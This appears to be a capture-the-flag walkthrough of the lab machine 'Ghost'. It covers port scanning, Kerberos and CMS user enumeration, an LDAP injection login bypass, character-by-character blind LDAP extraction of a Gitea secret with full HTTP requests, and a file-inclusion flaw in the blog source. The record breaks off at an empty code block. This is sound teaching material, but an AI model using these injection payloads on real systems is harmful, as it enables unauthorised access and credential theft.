# Ghost
## Host file setup
```python
sudo nxc smb 10.129.231.105 --generate-hosts-file /etc/hosts
 
SMB         10.129.231.105  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc01.ghost.htb        
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-25 16:40 +0100
Nmap scan report for dc01.ghost.htb (10.129.231.105)
Host is up (0.013s latency).
rDNS record for 10.129.231.105: DC01.ghost.htb
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8008/tcp  open  http
8443/tcp  open  https-alt
9389/tcp  open  adws
49443/tcp open  unknown
49664/tcp open  unknown
49672/tcp open  unknown
49681/tcp open  unknown
63211/tcp open  unknown
63351/tcp open  unknown
64506/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.27 seconds
```

Looks like there is port `2179` open, which means there is likely some virtualization
### Nmap
```python
nmap -p 53,80,88,135,139,389,443,445,464,593,636,1433,2179,3268,3269,3389,5985,8008,8443,9389 -A --min-rate=2000 -sT dc01.ghost.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-25 16:44 +0100
Nmap scan report for dc01.ghost.htb (10.129.231.105)
Host is up (0.013s latency).
rDNS record for 10.129.231.105: DC01.ghost.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-25 15:44:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
443/tcp  open  https?
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-25T15:36:31
|_Not valid after:  2056-08-25T15:36:31
| ms-sql-ntlm-info: 
|   10.129.231.105:1433: 
|     Target_Name: GHOST
|     NetBIOS_Domain_Name: GHOST
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: ghost.htb
|     DNS_Computer_Name: DC01.ghost.htb
|     DNS_Tree_Name: ghost.htb
|_    Product_Version: 10.0.20348
|_ssl-date: 2026-08-25T15:45:59+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.129.231.105:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-25T15:45:59+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Not valid before: 2026-08-24T15:33:38
|_Not valid after:  2027-02-23T15:33:38
| rdp-ntlm-info: 
|   Target_Name: GHOST
|   NetBIOS_Domain_Name: GHOST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ghost.htb
|   DNS_Computer_Name: DC01.ghost.htb
|   DNS_Tree_Name: ghost.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-25T15:45:18+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8008/tcp open  http          nginx 1.18.0 (Ubuntu)
|_http-generator: Ghost 5.78
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Ghost
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
8443/tcp open  ssl/http      nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Ghost Core
|_Requested resource was /login
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=core.ghost.htb
| Subject Alternative Name: DNS:core.ghost.htb
| Not valid before: 2024-06-18T15:14:02
|_Not valid after:  2124-05-25T15:14:02
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
```

## SMB (445)
Null auth is enabled but not able to list shares or users with it

The guest account is disabled!

## HTTP (80)



Landing page just looks like a 404, however i dont think its a default 404 page

There are no subdomains

Feroxbuster did not find anything

Nuclei did not find anything

## HTTP (443)

This site wont load, over either http or https, theres not a lot i can do with it right now

## HTTP (8008)



Looks like a CMS of some sort called Ghost

Potential user `kathryn.holland`?

Opening the post, i can see the author `kathryn.holland` has a page inside `/author/`, its possible i can use this to find valid users



Using wappalyzer i can see that this service is being run off an ubuntu machine, this is likely the virtualization i mentioned earlier

```python
nxc smb dc01.ghost.htb -u kathryn.holland -p '' -k
SMB         dc01.ghost.htb  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.ghost.htb  445    DC01             [-] ghost.htb\kathryn.holland: KDC_ERR_PREAUTH_FAILED
```

Using kerberos i am able to use error output to determine valid users, looks like `kathryn.holland` is a valid domain user, this give me a valid username format
### Nuclei 
```python
nuclei -u http://ghost.htb:8008/ -rl 50 

[CVE-2022-41697] [http] [medium] http://ghost.htb:8008/ghost/api/admin/session
```

Found a CVE

### CVE-2022-41697

> A user enumeration vulnerability exists in the login functionality of Ghost Foundation Ghost 5.9.4. A specially-crafted HTTP request can lead to a disclosure of sensitive information. An attacker can send a series of HTTP requests to trigger this vulnerability.

https://talosintelligence.com/vulnerability_reports/TALOS-2022-1625

```python
curl -X POST http://ghost.htb:8008/ghost/api/admin/session -H 'Content-Type: application/json' --data '{"username":"lkjasdfklasjdf@asdf.com","password":"asdfasdfasdf"}' | jq .
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    291 100    227 100     64   2705    762                              0
{
  "errors": [
    {
      "message": "There is no user with that email address.",
      "context": null,
      "type": "NotFoundError",
      "details": null,
      "property": null,
      "help": null,
      "code": null,
      "id": "8523fb70-a0a2-11f1-a02f-09a7d9773575",
      "ghostErrorCode": null
    }
  ]
}
```

Ill use the example POC in the article and see the error, this indicates this user doesnt exist

```python
curl -X POST http://ghost.htb:8008/ghost/api/admin/session -H 'Content-Type: application/json' --data '{"username":"kathryn.holland@ghost.htb","password":"asdfasdfasdf"}'
{"errors":[{"message":"Your password is incorrect.","context":"Your password is incorrect.","type":"ValidationError","details":null,"property":null,"help":"Visit and save your profile after logging in to check for problems.","code":"PASSWORD_INCORRECT","id":"71ce7d20-a0a2-11f1-a02f-09a7d9773575","ghostErrorCode":null}]}
```

But if i now test this POC with a user i know exists, i can see i get an error `Your password is incorrect` confirming the POC works

Another thing to note, the API is using domain credentials, since i know the user `kathryn.holland` is a domain user

```python
curl -X POST http://ghost.htb:8008/ghost/api/admin/session -H 'Content-Type: application/json' --data '{"username":"kathryn.holland@ghost.htb","password":"asdfasdfasdf"}' | jq . 
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    394 100    328 100     66   4522    909                              0
{
  "errors": [
    {
      "message": "Too many login attempts. Please wait 3 minutes before trying again, or reset your password.",
      "context": "Too many login attempts.",
      "type": "TooManyRequestsError",
      "details": null,
      "property": null,
      "help": "Too many login attempts.",
      "code": null,
      "id": "898d7aa0-a0a3-11f1-a02f-09a7d9773575",
      "ghostErrorCode": null
    }
  ]
}
```

If i send another request i see, there is a error for too many logon attempts, this prevents me from fuzzing the application to find valid users. But since the application is using domain credentials, kerbrute will work fine to enumerate users

### Ghost logon form



When trying the logon, it uses that session endpoint, used above to try and find valid users

The forgot password function, doesnt actually send a request anywhere, eventually the request times out

### Subdomains
```python
ffuf -u http://ghost.htb:8008/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.ghost.htb' -ic -c -t 30 -fs 7676 

intranet                [Status: 307, Size: 3968, Words: 52, Lines: 1, Duration: 239ms]
```

Found an intranet subdomain

## Access to the `intranet` subdomain on port 8008

Using simple ldap injection 

```python
Username: *
Password: *
```

I got access



I am logged in as `kathryn.holland`

Also some interesting info on the homescreen



Some info on more users, thise looks to be domain users too!



Found another subdomain `bitbucket.ghost.htb`

The bitbucket subdomain doesnt show anything, as shown in the screenshot above, the DNS entry is not configured

There is not a lot of functionality in this site, mostly just information

So i will safely assume there is a gitea subdomain, in all fairness im surprised none of these wordlists ive used contain gitea in them

## `gitea` subdomain



I have found the gitea install



Found the gitea version

I can also use `Explore` in the top left of the sight to view as a guest



Found some users

There is no repos or archived repos, ive tried using some default credentials but no luck

Im thinking i can use the LDAP injection on the intranet subdomain to pull out the secret, becuase remembering back it said domain logons were disabled, but i could log on to gitea using the secret and it could be found in LDAP

Ill prixy this request using caido

## LDAP injection to find `gitea_temp_principal` secret

```python
POST /login HTTP/1.1
Host: intranet.ghost.htb:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/x-component
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://intranet.ghost.htb:8008/login
Next-Action: c471eb076ccac91d6f828b671795550fd5925940
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=----geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Length: 478
Origin: http://intranet.ghost.htb:8008
Connection: keep-alive
Priority: u=0

------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="1_ldap-username"

gitea_temp_principal
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="1_ldap-secret"

*
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="0"

[{},"$K1"]
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1--
```

Using the target account set as the username, a `*` will search through the attributes until it find a match to `gitea_temp_principal`

So by placing a character in the password field followed by a `*` will either give an error for a incorrect character or a success for a correct character

```python
HTTP/1.1 303 See Other
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 26 Aug 2026 19:27:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2
Connection: keep-alive
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Url, Accept-Encoding
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Set-Cookie: token=Bearer%20eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3OTAzNjQ0NDEsImlhdCI6MTc4Nzc3MjQ0MSwidXNlciI6eyJ1c2VybmFtZSI6ImdpdGVhX3RlbXBfcHJpbmNpcGFsIn19.sksmk-WdJMLIhYqRnM-3i7lRh0ho_9LR6x4O-Uwo1QA; Path=/
x-action-revalidated: [[],0,1]
x-action-redirect: /
X-Powered-By: Next.js
ETag: "bwc9mymkdm2"

{}
```

This is what a valid request looks like just using the `*` in the secret field

So i already know it can only contain letters and numbers from the `/profile` endpoint:



So i can use a character wordlist to find the correct secret

Ill create a wordlist to do this

```python
POST /login HTTP/1.1
Host: intranet.ghost.htb:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/x-component
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://intranet.ghost.htb:8008/login
Next-Action: c471eb076ccac91d6f828b671795550fd5925940
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=----geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Length: 478
Origin: http://intranet.ghost.htb:8008
Connection: keep-alive
Priority: u=0

------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="1_ldap-username"

gitea_temp_principal
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="1_ldap-secret"

FUZZ*
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1
Content-Disposition: form-data; name="0"

[{},"$K1"]
------geckoformboundary7d9e9ef2cf79193384b4632ed29c67f1--
```

Ill grab the request and upload it to caido so i can fuzz this in caido



As seen here the letter `s` gives a different response length

I also dont think it is case sensitive



Now its followed by `z`, ill continue this process until it all characters return the same response length i.e. they all cause errors

```python
szrr8kpc3z6onlqf
```



After re running this until all responses had the same length i find the secret, now i can log into the gitea instance

## Access to gitea instance as `gitea_temp_principal`



Found two private repos

There are no hardcoded credentials

Ill have a look through some of this source code

## Local file inclusion in the blog 

After running some analysis on the source code in both repos, i found two interesting vulnerabilities, one which is RCE in intranet but it is currently locked and needs a value called `DEV_INTRANET_KEY` which i dont yet have

But there is another vulnerability in the blog which is a file inclusion vulnerability in `posts-public.js` 

```python
const extra = frame.original.query?.extra;
if (extra) {
    const fs = require("fs");
    if (fs.existsSync(extra)) {
        const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
        posts.meta.extra = { [extra]: fileContent };
    }
}
```

I should be able to exploit this file read vulnerability using the API key given in the blogs readme

```python
